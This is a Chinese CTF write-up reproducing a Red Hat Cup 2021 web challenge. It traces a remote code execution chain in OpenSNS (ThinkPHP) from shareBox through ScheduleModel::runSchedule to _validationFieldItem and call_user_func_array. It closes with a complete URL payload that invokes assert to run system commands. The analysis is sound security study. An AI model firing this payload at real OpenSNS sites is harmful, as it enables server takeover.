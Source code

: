 # 红帽杯2021Web部分题目复现



## OpenSNS

根据网上的文章进行复现学习。感觉能找到这个洞的师傅实在tql。

漏洞点位于`Application/Weibo/Controller/ShareController.class.php`的shareBox方法：

```php
    public function shareBox(){
        $query = urldecode(I('get.query','','text'));
        parse_str($query,$array);
        $this->assign('query',$query);
        $this->assign('parse_array',$array);
        $this->display(T('Weibo@default/Widget/share/sharebox'));
    }
```

看了这个才隐约想到，之前自己了解tp的时候，了解到模板文件里也是可以执行代码的。之前一直都没考虑过这个。

这里就用到了。先把get传的query参数进行url解码，然后将这个字符串解析成变量数组，然后进行模板渲染。

跟进这个模板看一下：

```html
<!-- Modal -->
<div id="frm-post-popup" class="white-popup" style="max-width: 745px">
    <div class="weibo_post_box">
        <h2>{:L('_SHARE_TO_WEIBO_')}</h2>
        <div class="aline" style="margin-bottom: 10px"></div>
        <div class="row">
            <div class="col-xs-12">
                <div>
                    {:W('Weibo/Share/fetchShare',array('param'=>$parse_array))}
                </div>
                <br/>
                <p>
                    <textarea class="form-control" id="share_content" style="height: 6em;"
                             placeholder="{:L('_PLACE_HOLDER_WRITE_SOMETHING_')}{:L('_WAVE_')}{:L('_WAVE_')}">{$weiboContent}</textarea></p>
                <a href="javascript:" onclick="insertFace($(this))"><img src="__CORE_IMAGE__/bq.png"/></a>
                <p class="pull-right"><input type="submit" value="{:L('_PUBLISH_CTRL_CENTER_')}" data-role="do_send_share" data-query="{$query}"
                                             class="btn btn-primary" data-url="{:U('weibo/Share/doSendShare')}"/></p>
            </div>
        </div>
        <div id="emot_content" class="emot_content"></div>
        <button title="Close (Esc)" type="button" class="mfp-close" style="color: #333;">×</button>
    </div>
</div>
<!-- /.modal -->

<script>
    $(function () {
        $('#share_content').keypress(function (e) {
            if (e.ctrlKey && e.which == 13 || e.which == 10) {
                $("[data-role='do_send_share']").click();
            }
        });

        $('[data-role="do_send_share"]').click(function(){
            //获取参数
            var url = $(this).attr('data-url');
            var content = $('#share_content').val();
            var $button = $(this);
            var query = $button.attr('data-query');

            var originalButtonText = $button.val();

            //发送到服务器
            $.post(url, {content: content,query:query}, function (a) {
                handleAjax(a);
                if (a.status) {
                    $('.mfp-close').click();
                    $button.attr('class', 'btn btn-primary');
                    $button.val(originalButtonText);

                }
            });
        })
    });
</script>
```

可以发现：

```html
                <div>
                    {:W('Weibo/Share/fetchShare',array('param'=>$parse_array))}
                </div>
```

调用`W`方法，细看的话就是W方法里面又调用了R方法。thinkphp的注释中写道，W方法是用来`渲染输出Widget`，R方法是`远程调用控制器的操作方法 URL 参数格式 [资源://][模块/]控制器/操作`。

可以不具体的了解代码，简单来说，这个模板代码的作用就是，调用`Weibo application`下的`Share Model`下的`fetchShare`方法，而传入的第一个参数就是`array('param'=>$parse_array)`：

```php
    public function fetchShare($param, $weibo = null)
    {
        $this->assginFetch($param, $weibo = null);
        $this->display(T('Weibo@default/Widget/share/fetchshare'));
    }
```

继续跟进`assginFetch`方法看看：

```php
    private function assginFetch($param, $weibo = null)
    {
        if ($weibo) {
            $this->assign('weibo', $weibo);
        }
        $show = D('Weibo/Share')->getInfo($param);
        $show=array_merge($show, $param);
        $this->assign('show', $show);
    }
```

看一下D方法的注释：`实例化模型类 格式 [资源://][模块/]模型`。

所以其实就是实例化`Weibo`模块下面的`ShareModel`类，调用它的`getInfo`方法：

```php
    public function getInfo($param)
    {
        $info = array();
        if(!empty($param['app']) && !empty($param['model']) && !empty($param['method'])){
            $info = D($param['app'].'/'.$param['model'])->$param['method']($param['id']);
        }

        return $info;
    }
```



然后关键的来了：

```php
$info = D($param['app'].'/'.$param['model'])->$param['method']($param['id']);
```

实例化某个模型类，然后调用这个类某个方法，第一个参数可控。

因此就是想办法找个可以rce的模型类方法了。发现的那个师傅找到的是`_validationFieldItem`方法，但是这个方法有两个参数，而且两个参数都会用到：

```php
protected function _validationFieldItem($data, $val)
```

又恰巧找到了`ScheduleModel.class.php`下的`runSchedule`方法：

```php
    public function runSchedule($schedule)
    {
        if ($schedule['status'] == 1) {
            $method = explode('->', $schedule['method']);
            parse_str($schedule['args'], $args);  //分解参数
            try {
                $return = D($method[0])->$method[1]($args, $schedule); //执行model中的方法
            }
```

构造`status`键值进入if，然后`$args`和`$schedule`都是可控的，所以参数可控。而且`$method`经过`explode`得到，也可控，因此可以调用`_validationFieldItem`方法：

```php
    protected function _validationFieldItem($data, $val)
    {
        switch (strtolower(trim($val[4]))) {
            case 'function': // 使用函数进行验证
            case 'callback': // 调用方法进行验证
                $args = isset($val[6]) ? (array)$val[6] : array();
                if (is_string($val[0]) && strpos($val[0], ','))
                    $val[0] = explode(',', $val[0]);
                if (is_array($val[0])) {
                    // 支持多个字段验证
                    foreach ($val[0] as $field)
                        $_data[$field] = $data[$field];
                    array_unshift($args, $_data);
                } else {
                    array_unshift($args, $data[$val[0]]);
                }
                if ('function' == $val[4]) {
                    return call_user_func_array($val[1], $args);
                } else {
                    return call_user_func_array(array(&$this, $val[1]), $args);
                }
```

先判断`$val[4]`，发现如果是`function`，并没有给break，还会进入到下面的`case`，是开发的问题。

然后有用的代码就是这些了：

```php
$args = isset($val[6]) ? (array)$val[6] : array();
array_unshift($args, $data[$val[0]]);
return call_user_func_array($val[1], $args);
```

构造出payload即可：

```
?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule->_validationFieldItem%26id[4]=function%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=system('ls');
```











